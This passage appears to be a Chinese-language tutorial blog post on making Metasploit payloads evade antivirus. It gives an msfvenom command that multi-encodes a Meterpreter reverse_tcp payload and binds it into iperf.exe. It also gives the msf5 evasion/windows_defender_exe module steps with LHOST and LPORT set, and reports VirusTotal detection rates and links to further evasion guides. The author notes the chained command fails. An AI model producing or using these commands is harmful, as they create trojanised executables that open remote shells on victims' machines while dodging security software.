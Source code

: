 把这些梳理完成之后，可以总结为一个脚本。自己一键免杀。把各种都做出来供选择。

多重编码。前面我们只用了一个编码器。

可以用管道进行多次编码。注意前面的-f都是raw。最后的-f才是exe。

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 3 lhost=172.16.2.126 lport=3333 -f raw | msfvenom -e x86/alpha_upper -i 3 -f raw | msfvenom -e x86/countdown -i 3 -x iperf.exe -f exe -o test5.exe
```

（我这个命令不行，总是提示要指定arch。但是我都指定为-a x86，还是不行）

但是编码多了，并一定更好，可能更容易被识别出来。

经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

2019年1月，metasploit升级到5.0版本，引入了一个新的模块，叫做evasion模块。

官方宣称这个模块可以创建免杀的木马。

在msf里，输入show evasion。可以查看对应的模块。



```
msf5 > use evasion/windows/windows_defender_exe
msf5 evasion(windows/windows_defender_exe) > set filename payload.exe
msf5 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf5 evasion(windows/windows_defender_exe) > set LHOST 10.211.55.3
msf5 evasion(windows/windows_defender_exe) > set LPORT 3333
msf5 evasion(windows/windows_defender_exe) > run
```

用这样的可以生成payload，只有4K。而且不会被电脑管家查杀出来。

还可以生成install_util(VT查杀率12/71)和hta(VT查杀率14/59)等，因为使用了白名单加载的方式，所以免杀效果相对好一些。



当前有的问题：

```
1、捆绑后，影响了原程序的运行。例如跟iperf.exe绑定后，iperf.exe的正常功能失效了。
	这样就无法在靶机上存留。
2、我觉得应该先得到一个payload，然后再另外用其他工具附加到正常程序后面。

```



参考资料

下面这个系列文章读懂了，就入门了。

这个是TideSec这个团队写的。所有文章在这里。

https://github.com/TideSec/BypassAntiVirus

远控免杀从入门到实践（1）：基础篇

https://www.freebuf.com/articles/system/227461.html

远控免杀从入门到实践（2）工具总结篇

https://www.freebuf.com/articles/system/227462.html

远控免杀从入门到实践(3)-代码篇-C/C++

https://www.freebuf.com/articles/system/227463.html
